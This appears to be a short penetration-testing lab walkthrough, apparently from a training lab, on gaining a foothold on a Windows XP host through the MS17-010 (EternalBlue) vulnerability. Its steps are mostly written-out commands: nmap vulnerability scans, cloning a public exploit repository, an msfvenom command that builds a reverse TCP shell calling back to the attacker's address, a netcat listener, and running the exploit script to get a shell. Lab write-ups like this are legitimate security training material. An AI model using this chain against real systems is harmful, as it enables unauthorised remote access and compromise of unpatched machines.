





Getting a Foothold

Getting a Foothold

# Works

1. Run the vuln scripts on NMAP. Either of the following 2 commands listed MS17-010 as one of the high risk vulns.
No ping scan
`sudo nmap -Pn -A -p- -sV --script default,safe,auth,vuln --max-retries 4 10.11.1.5`
Stealth scan
`sudo nmap -sS -A -p- -sV --script default,safe,auth,vuln --max-retries 4 10.11.1.5`

2. The above scripts ran smb-os-discovery script, and revealed that the OS = Windows XP (Lan Manager)

3. Searchsploit does not offer any exploits for MS17-010 using Windows XP. The Google search string: `ms17-010 windows xp` showed the helpful link that led to the next steps.

4. Clone this repo
`git clone https://github.com/helviojunior/MS17-010.git`

5. Generate shellcode
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.214 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o rev_192.168.119.214_443.exe`

6. Start a netcat listener
`sudo nc -lvnp 443`

7. Run send_and_execute.py
`python ~/gitWorkspace/tools/MS17-010/send_and_execute.py 10.11.1.5 rev_192.168.119.214_443.exe`

8. Notice that we now have a shell

 